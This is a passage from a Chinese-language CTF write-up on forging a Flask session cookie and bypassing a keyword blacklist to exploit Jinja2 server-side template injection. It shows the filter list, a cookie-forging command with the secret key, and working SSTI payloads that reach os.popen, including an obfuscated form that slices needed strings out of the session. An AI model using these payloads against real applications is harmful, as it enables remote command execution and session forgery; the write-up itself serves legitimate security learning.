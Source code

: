 然后我们就可以进行session伪造了，但是由于等会需要进行ssti(但是过滤了很多)

```python
blacklist = ['_', "'", '"', '.', 'system', 'os', 'eval', 'exec', 'popen', 'subprocess',
'posix', 'builtins', 'namespace','open', 'read', '\\', 'self', 'mro', 'base',
'global', 'init', '/','00', 'chr', 'value', 'get', "url", 'pop', 'import',
'include','request', '{{', '}}', '"', 'config','=']
```

这里有两种写法：

法一：（字符串拼接）不推荐，很难拼



法二：

这里session是可控的，所以我们可以把需要的字符串先存入session中，然后在ssti时从session中取值

> `{%print(session)%}`这样可以把session的值打印出来
>
> 我在这里学到了新的东西，jinja2的字符串可以进行字符串切片
>
> 首先我们需要把`session`转为字符串，我们使用`string过滤器`
>
> ```
> (session|string)[39:50]
> ```
>
> 这样就可以打印出session中的一段值了

首先使用脚本构造flask session：(这里我们把ssti需要使用的字符串也构造到session中了)

```python
python flask_session_cookie_manager3.py encode -s "bxdQy9DN6FiCBXhNZFm3YwAgJ+Mn4+mRFiI0sYEP*NeepuCTF*" -t "{'/readflag': 0, '__globals__': 0, 'admin': 1, 'os': 0,'popen': 0, 'read': 0}"

.eJyrVtIvSk1MSctJTFeyMtBRio9Pz8lPSswpjo8H8xNTcjPzlKwMdZTyi8ECBfkFqXlgFkgfkFELAMoaFFg.ZG5POw.jWk5AQmFaC172YwAbMbUXlICmm4
```

![image-20230525025204438](https://s2.loli.net/2023/05/25/MoyJRDLIkpwg7ze.png)

如图，我们将session变量的值打印出来了，其中包含我们可以利用的字符串

接下来我们只需要构造如下ssti即可：

```jinja2
{%print(lipsum["__globals__"]["os"]["popen"]("/readflag")["read"]())%}
```

结合session的payload:

```jinja2
{%print(lipsum[(session|string)[39:50]][(session|string)[69:71]][(session|string)[78:83]]((session|string)[23:32])[(session|string)[24:28]]())%}
```

![image-20230525025419723](https://s2.loli.net/2023/05/25/EZB1Te6imHUgFbu.png)
